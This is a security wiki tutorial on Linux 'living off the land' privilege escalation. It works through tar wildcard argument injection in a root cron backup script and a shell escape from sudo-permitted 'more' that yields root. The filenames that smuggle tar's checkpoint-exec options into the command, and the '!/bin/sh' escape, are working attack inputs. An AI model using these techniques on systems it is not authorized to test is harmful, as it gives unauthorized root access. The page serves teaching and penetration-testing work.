 ```yaml
---
authors: 'ShutdownRepo, p0dalirius'
category: infra
---
```


# 🛠️ Living off the land

## Theory

Living of the Land is a well known privilege escalation technique, where an attacker will leverage binaries found on the attacked machine to perform a privilege escalation. Indeed, many UNIX programs have options that can be exploited to open a shell. Therefore if we can start the program we exploit as another user, we might be able to open a shell as this user ! 

Most of the payloads to do this on UNIX programs can be found on [gtfobins.github.io](https://gtfobins.github.io/).

## Practice

Here are two case study to better understand the principle of these privilege escalations :

### Case study 1 : Privesc using tar and a cronjob

Imagine a scenario where a script backups a directory (that we can control) on the server each hour using `tar` like this :

```
#!/bin/bash

mkdir -p /backups/
cd /var/www/html/ && tar cvzf /backups/backup_$(date +%Y_%m_%d_%Hh%M).tar.gz *
```

Notice this interesting pattern `tar czvf file.tar.gz *` in the script. This is a security vulnerability because of how UNIX shells handles wildcards. Let's see an example with the `ls` command :

```
$ ls -lha
total 84K
drwxrwxr-x 2 user user 4,0K avril 27 22:32 .
drwxrwxrwt 89 user user 76K avril 27 22:31 ..
-rw-rw-r-- 1 user user 0 avril 27 22:31 file1
-rw-rw-r-- 1 user user 0 avril 27 22:31 file2
-rw-rw-r-- 1 user user 0 avril 27 22:31 file3
$ ls *
file1 file2 file3

$ echo '' > '-lha'
$ ls -lha 
total 88K
drwxrwxr-x 2 user user 4,0K avril 27 22:32 .
drwxrwxrwt 89 user user 76K avril 27 22:31 ..
-rw-rw-r-- 1 user user 0 avril 27 22:31 file1
-rw-rw-r-- 1 user user 0 avril 27 22:31 file2
-rw-rw-r-- 1 user user 0 avril 27 22:31 file3
-rw-rw-r-- 1 user user 1 avril 27 22:32 -lha
$ ls *
-rw-rw-r-- 1 user user 0 avril 27 22:31 file1
-rw-rw-r-- 1 user user 0 avril 27 22:31 file2
-rw-rw-r-- 1 user user 0 avril 27 22:31 file3
```

The shell wildcards are resolved by the shell, and not by the command. This means filenames can be treated as options if they are starting with a `-`. In our previous example, we added a file called `-lha` into the folder. When we type `ls *`, the shell replaces the `*` by all matching files in the current directory, and therefore our command becomes `ls file1 file2 file3 -lha`. After the wildcard resolution, the shell executes the command with our options.

Now if we get back to our script creating a backup of a directory each our with `tar *`, we see that tar have legitimate options allowing execution of a program. You can find them here :

* [https://gtfobins.github.io/gtfobins/tar/#shell](https://gtfobins.github.io/gtfobins/tar/#shell)

To use these options in our exploit, we jut need to create these two files in our directory, as well as the `exploit.sh` file, containing the command we want to run when we trigger the execution :

```
echo '' > '--checkpoint=1'
echo '' > '--checkpoint-action=exec=sh exploit.sh'

$ ls -lha 
total 88K
drwxrwxr-x 2 user user 4,0K avril 27 22:32 .
drwxrwxrwt 89 user user 76K avril 27 22:31 ..
-rw-rw-r-- 1 user user 0 avril 27 22:31 file1
-rw-rw-r-- 1 user user 0 avril 27 22:31 file2
-rw-rw-r-- 1 user user 1 avril 27 22:31 '--checkpoint=1'
-rw-rw-r-- 1 user user 1 avril 27 22:32 '--checkpoint-action=exec=sh exploit.sh'
-rwxrwxrwx 1 user user 784 avril 27 22:32 exploit.sh
```

We are now ready ! We just need to wait until the directory is backup again, and it will trigger our payload and execute `exploit.sh` file!

### Case study 2 : Privesc using more and sudo

Let's take an example, with this `sudo` configuration :

```
$ sudo -l
[sudo] password for user: 
Matching Defaults entries for user on PC1:
 env_reset, mail_badpass,
 secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on PC1:
 (ALL : NOPASSWD) /usr/bin/more /var/log/apache2/access.log
```

In this case `user` can run the `more` command, but only to read a specific log file `/var/log/apache2/access.log` as `root` without password (`NOPASSWD` flag) : 

```
sudo -u root /usr/bin/more /var/log/apache2/access.log
```

You can assume this would be safe right ? Unfortunately, it's not. The `more` command has various useful options, one of them is `!`. When you're in `more` and you type an exclamation mark followed by the path to a binary file, you can execute it in a subprocess. For example if you type `!/bin/sh` in `more`, you will open a shell as the owner of the parent `more` process !

```
$ sudo -u root /usr/bin/more /var/log/apache2/access.log
File content line 1
File content line 2
...
File content line n
------------------------
!/bin/sh
# 
uid=0(root) gid=0(root) groups=0(root)
# 
```
